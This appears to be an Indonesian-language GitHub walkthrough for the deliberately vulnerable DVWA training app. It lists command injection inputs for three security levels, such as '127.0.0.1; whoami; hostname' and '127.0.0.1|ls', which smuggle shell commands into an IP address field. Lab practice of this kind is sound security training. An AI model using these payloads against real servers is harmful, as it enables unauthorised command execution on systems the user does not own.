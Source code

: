 # DVWA Tricks
Damn Vulnerable Web Application (DVWA) adalah aplikasi web berbasis PHP/MySQL yang sangat rentan. Tujuan utamanya adalah untuk menjadi bantuan bagi para profesional keamanan untuk menguji skill dan tools di lingkungan yang legal, membantu developer web lebih memahami proses mengamankan aplikasi web dan membantu siswa & guru untuk belajar tentang keamanan aplikasi web di platform yang sudah disediakan.

Informasi Download dan instalasi: https://github.com/digininja/DVWA

## Command Injection
Command Injection (Shell Injection) adalah celah keamanan web yang memungkinkan penyerang dapat mengeksekusi perintah sistem operasi (OS) sewenang-wenang di server yang menjalankan aplikasi, dan biasanya membahayakan aplikasi dan semua data.

### Security Low
```sh
127.0.0.1; ls
``` 
![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%201.JPG)

```sh
127.0.0.1; whoami; hostname
```
![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%202.JPG)

### Security Medium
```sh
127.0.0.1& ls
```
```sh
127.0.0.1& whoami& hostname
```

### Security Hard
Di level ini kita hanya bisa mengeksekusi 1 perintah saja
```sh
127.0.0.1|ls
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%203.JPG)
